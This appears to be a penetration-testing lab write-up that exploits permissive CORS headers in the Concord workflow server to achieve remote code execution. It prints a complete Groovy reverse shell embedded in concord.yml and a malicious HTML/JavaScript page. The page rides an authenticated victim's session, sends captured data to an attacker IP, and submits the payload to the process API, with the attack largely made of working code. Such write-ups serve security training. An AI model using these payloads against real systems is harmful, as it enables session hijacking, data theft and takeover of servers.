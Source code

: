 ## Reading the Documentation

Now that we have understood what the vulnerability is, and we have found a potential vector, we can start our research on what we can/can't do and how can we exploit.

CORS exploits are similar to reflected _Cross-Site Scripting_ (XSS) in that we must send a link to an already-authenticated user in order to exploit something of value.
The difference with CORS is that the link we send will not be on the same domain as the site we are targeting.
Since Concord has some permissive CORS headers, any site that an authenticated user visits can interact with Concord and ride the user's session.
Thus, we will host our own site. A site that will host a JavaScript payload that will run in the victim's browser and interact with Concord(riding the user's session).

Now, even though we understand how to exploit this vulnerability, we need to understand how can we specifically exploit concord.
Thus, we need to find a special request that can we can get executed from the user's session, that either elevates our privileges, or allows us to obtain sensitive information.
For this, we will move on to the concord API's documentation.
Moreover, because the concord CORS headers, have some restrictions, we need to be selective with what types of requests we search for.

There are only 3 types of requests we can work with:
1. GET request that obtains sensitive information.
2. GET request that changes the state of the application.
3. POST request that only uses standard content-types.

For example, the first section that catches our eye is the API key section.
Here, we see the request /api/v1/apikey.
This looks interesting as it creates a new API key for a user, this might seem interesting until we notice that the POST request uses application/json content-type, which means, before sending the request it will send an OPTIONS method request, which replies with different CORS headers that are not as vulnerable:

![](../../03.%20Screenshots/t8-ss18.png)

Moving on, further reading the documentation, we land on the process section.
Here, we see an endpoint to "Start a Process".
A process in concord, is the execution of a flow in a repo, of a project.
This might lead to code execution, and thus we can start inspecting more.

The request is a standard POST request, which requires the "multipart/form-data" content-type, which is a standard content-type and does not require a preflight check.
We don't have to worry about the authentication, as even though concord could authenticate requests solely with an _Authorization_ header, most modern graphical sites coded for browser-based clients use cookies for authentication.
In addition, since the server sent the _Access-Control-Allow-Credentials_ header, we can assume that cookies are used for session management.

![](../../03.%20Screenshots/t8-ss19.png)

Reading the documentation further, we see how we can start a concord process by uploading a ZIP file.
The documentation explains, how we can create a zip archive with a concord.yml file that contains a "flow". Concord describes a flow as a "series of steps executing various actions":

Further in the documentation, it even states that we don't even need to provide a ZIP file, and can just provide the concord.yml file to get the process running:

![](../../03.%20Screenshots/t8-ss20.png)

The documentation says "The format is described in Directory Structure document."
Thus, we can visit the URL to the directory structure, to study potential paths to code execution.

The document defines a concord.yml file as "a Concord DSL file containing the main flow, configuration, profiles and other declarations"
and a DSL as "Concord DSL files contain configuration, flows, profiles and other declarations."

Finally, we can try and understand what a flow is. which seems to be our most likeable command execution vector.
Studying further, on how we can set up a flow, we can see the groovy script example, in the "Scripting" section:

![](../../03.%20Screenshots/t8-ss21.png)

The script, first imports the groovy dependency, then sets the script variable to groovy. This will instruct concord to execute the command as groovy.
With that setup, we can finally add the main body, and set it as a basic reverse shell. Our final concord.yml file will look like so:

```groovy
configuration:
  dependencies:
  - "mvn://org.codehaus.groovy:groovy-all:pom:2.5.2"
flows:
  default:
    - script: groovy
      body: |
         String host = "<kali IP}>";
         int port = 9000;
         String cmd = "/bin/sh";
         Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
         Socket s = new Socket(host, port);
         InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
         OutputStream po = p.getOutputStream(), so = s.getOutputStream();
         while (!s.isClosed()) {
         while (pi.available() > 0) so.write(pi.read());
         while (pe.available() > 0) so.write(pe.read());
         while (si.available() > 0) po.write(si.read());
         so.flush();
         po.flush();
         Thread.sleep(50);
         try {
            p.exitValue();
            break;
         } catch (Exception e) {}
         };
         p.destroy();
         s.close();
```

With the script ready, we need to create a website that our victim will visit who's session we will ride.
The website code will look like so:

```html
<html>
	<head>
		<script>
			fetch("http://concord:8001/api/service/console/whoami", {
				credentials: 'include'
			})
			.then(async (response) => {
			if(response.status != 401){
				let data = await response.text();
				fetch("http://192.168.118.2/?msg=" + data )
			}else{
				fetch("http://192.168.118.2/?msg=UserNotLoggedIn" )
			}
			})
		</script>
	</head>
	<body>
	</body>
</html>
```

The code will first check if the user is logged in.
If the response status is not 401(meaning the user is logged in), the captured data will be sent back.
However, if the user is not logged in meaning a 401 status response, a message will be sent back to the kali server saying that the user is not logged in.

We can save the html file, and host a python http server and send the link to our victim, and wait for a response.
To make sure the webpage is working, we will visit the attacker IP, and expect a UserNotLoggedIn message to the kali server:

![](../../03.%20Screenshots/t8-ss22.png)

Now, we wait for an authenticated victim to visit our webpage:

![](../../03.%20Screenshots/t8-ss23.png)

We see that our exploit is working correctly.
Now all we need to do is, include our groovy script, as a file, inside the request we're sending riding the user's session:

```html
<html>
<head>
	<script>
		yml = `
configuration:
  dependencies:
  - "mvn://org.codehaus.groovy:groovy-all:pom:2.5.2"
flows:
  default:
    - script: groovy
      body: |
         String host = "192.168.119.155";
         int port = 9000;
         String cmd = "/bin/sh";
         Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
         Socket s = new Socket(host, port);
         InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
         OutputStream po = p.getOutputStream(), so = s.getOutputStream();
         while (!s.isClosed()) {
         while (pi.available() > 0) so.write(pi.read());
         while (pe.available() > 0) so.write(pe.read());
         while (si.available() > 0) po.write(si.read());
         so.flush();
         po.flush();
         Thread.sleep(50);
         try {
            p.exitValue();
            break;
         } catch (Exception e) {}
         };
         p.destroy();
         s.close();
`         
		fetch("http://concord:8001/api/service/console/whoami", {
				credentials: 'include'
		})
			.then(async (response) => {
			if(response.status != 401){
				let data = await response.text();
				fetch("http://192.168.119.155/?msg=" + data )
				rce();
			}
			else{
				fetch("http://192.168.119.155/?msg=UserNotLoggedIn" )
			}
		})
		function rce() {
			var ymlBlob = new Blob([yml], { type: "application/yml" });
			var fd = new FormData();
			fd.append('concord.yml', ymlBlob);
			fetch("http://concord:8001/api/v1/process", {
			    credentials: 'include',
				method: 'POST',
			    body: fd
			})
				.then(response => response.text())
				.then(data => {
			    	fetch("http://192.168.119.155/?msg=" + data )
				}).catch(err => {
			    	fetch("http://192.168.119.155/?err=" + err )
				});
			}
		</script>
</head>
<body>
</body>
</html>
```

We'll first add our groovy script in a "yml" variable.
Then, we define the function "rce", that will start by creating a blob from the yml string, with the content-type "application/yml".
Next, we create the form-data for fetch, we append that, to the end of the concord.yml document.
We use fetch, to make the actual request, and deal with responses and catch any errors.
Finally, we call the function, in the ".then" promise, where the user is logged into the application.

With the payload ready, we can setup a listener to catch the reverse shell, and wait for the victim to visit our link. Finally, we get the reverse shell:

![](../../03.%20Screenshots/t8-ss24.png)